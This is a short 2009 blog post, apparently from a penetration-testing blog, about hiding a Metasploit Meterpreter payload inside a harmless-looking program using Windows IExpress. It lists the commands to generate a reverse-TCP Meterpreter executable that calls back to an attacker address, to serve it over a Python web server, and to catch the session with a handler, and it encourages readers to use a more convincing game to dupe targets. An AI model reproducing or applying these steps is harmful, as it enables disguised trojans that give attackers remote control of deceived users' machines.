 ---
author: mubix
comments: true
date: 2009-03-02 19:24:23+00:00
layout: post
title: Metasploit heart's Microsoft
categories:
- iexpress
- metasploit
---

<iframe src="//player.vimeo.com/video/3440084" width="500" height="361" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe> <p><a href="http://vimeo.com/3440084">Hiding Meterpreter with IExpress</a> from <a href="http://vimeo.com/mubix">mubix</a> on <a href="https://vimeo.com">Vimeo</a>.</p>
  
Using the IExpress, a built in tool (XP, not sure about other Windows versions), we package two executables together, so that the target is less likely to suspect foul play. Now, I used calc.exe, but you can use anything on both sides of the coin. Use a better game so that it's easyier to dupe, or a different malicious executable (leekspin perhaps?).  
  
I'll let your minds take this to the level I know you all are capable of. One caveat is that the icon for the executable is that of the self extractor, which shouldn't be that much of an issue to change, but I don't know off the top of my head of an app that does it, so please comment and let me know if you do.  
  
Commands from video:  

* `./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=1080 X > /tmp/academy/bob.exe`
* (For python 2.4+) python -m SimpleHTTPServer
* (For python 2.3 -) python -c "from SimpleHTTPServer import test; test()"
* Start -> Run -> iexpress <return>
* Run multi/hander from command line (not shown in video)
  
  
Links from video:  

  * [http://www.metasploit.com/](http://www.metasploit.com/)
  * [http://www.shell-fu.org/](http://www.shell-fu.org/)
  * [http://www.microsoft.com/technet/prodtechnol/ie/ieak/techinfo/deploy/60/en/iexpress.mspx?mfr=true](http://www.microsoft.com/technet/prodtechnol/ie/ieak/techinfo/deploy/60/en/iexpress.mspx?mfr=true)
  * [http://www.virustotal.com/](http://www.virustotal.com/)
  * [http://www.theacademypro.com/](http://www.theacademypro.com/)
  * [http://www.theacademyhome.com/](http://www.theacademyhome.com/)
  

